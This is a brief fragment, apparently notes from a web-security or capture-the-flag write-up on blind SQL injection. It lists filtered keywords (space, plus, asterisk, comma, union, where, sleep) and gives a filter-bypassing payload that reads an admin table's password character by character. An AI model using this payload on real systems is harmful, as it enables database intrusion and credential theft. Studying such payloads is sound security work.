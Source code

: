 盲注

过滤关键词：  
空格 | \+ | \* | , | union | where | sleep


payload:
`'or(mid((select(password)from(admin))from(%d))='%s')#`